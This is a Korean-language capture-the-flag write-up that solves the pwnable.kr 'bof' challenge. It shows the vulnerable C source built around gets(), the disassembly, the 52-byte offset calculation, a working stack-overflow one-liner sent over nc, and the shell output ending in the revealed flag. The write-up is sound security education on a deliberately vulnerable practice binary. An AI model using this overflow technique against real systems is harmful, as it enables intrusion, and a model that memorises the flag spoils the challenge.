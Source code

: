 ```yaml
---
title: "[pwnable.kr] bof"
date: 2020-03-22
categories: Write-up
sitemap :
  changefreq : daily
  priority : 1.0
---
```


<a href="http://pwnable.kr/bin/bof">binary download</a>

<a href="http://pwnable.kr/bin/bof.c">source download</a>

`remote` : nc pwnable.kr 9000



감을 잃지 않기위해 풀어본 문제. 요새 포너블을 할 시간이 없다;;

# outline

```bash
[*] '/home/minibeef/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

32 비트 바이너리이고 Canary, DEP, PIE 다 걸려있다.



# Vulnerability

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

`func(int key)` 함수에서 **gets()**를 사용하고 있다. 취약점은 해당 부분에서 터지는 것을 인지하고, 핵심은 func가 호출될 때 사용되는 arguments를 `buffer overflow` 취약점을 이용하여 0xcafababe로 바꾸는 것이다. 해당 문제 바이너리는 x86 환경이고 이에 따라 함수 호출 규약을 `__cdecl`을 따른다. 아키텍쳐에 따른 Calling Convention은 나중에 다룰 예정임. 여튼간에 이러한 호출 규칙 때문에 arguments를 stack에 push하게 되는데 이 점을 공략하면 된다. 이제 offset만 알면 공격이 가능하다.



```bash
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave
   0x00000689 <+93>:    ret
End of assembler dump.
```

프로시저가 call 되는 순서상 `<func+32>`가 gets()를 호출하는 부분일테고, 인자로 들어가는 포인터는 `ebp-0x2c`라는 것을 알 수 있다. key 인자는 `ebp+0x8`에 있을 것이므로 이를 계산하면 offset은 **52 bytes**이다. 공격해보자



# exploit

``` bash
minibeef@Acer:~$ (python -c 'print "A"*52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

끝